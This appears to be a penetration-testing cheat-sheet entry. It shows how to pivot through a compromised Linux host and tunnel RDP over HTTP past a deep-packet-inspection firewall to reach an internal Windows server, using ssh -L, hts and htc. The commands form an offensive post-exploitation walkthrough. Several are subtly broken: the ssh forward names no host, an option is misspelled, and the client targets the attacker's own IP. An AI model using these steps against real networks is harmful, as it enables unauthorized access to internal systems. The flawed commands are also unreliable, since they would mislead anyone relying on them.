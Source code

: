 # HTTPTunneling Through Deep Packet Inspection
* [HTTPTunnel](http://http-tunnel.sourceforge.net/)

Assuming the following setup:

Attacker Machine (Kali): 10.10.10.10
Compromised Machine: 10.10.10.20, additional interface to 192.168.1.0/24
Windows Server: 192.168.1.100
Firewall incoming traffic to ports 80,443 and 4444 (misconfigured)
Objective: Get a RDP Session to the Windows Server

1. Setup local forward on compromised machine
```
ssh -L 0.0.0.0:8888:192.168.1.100:3389
```
2. Setup HTTPTunnel server on compromised machine (hts)
```
hts --foward-port localhost:8888 4444
```
3. Setup HTTPTunnel client on attacker machine
```
htc --forward-port 8080 10.10.10.10:4444
```
4. Connect with a RDP tool to 127.0.0.1:8080 (attacker machine)
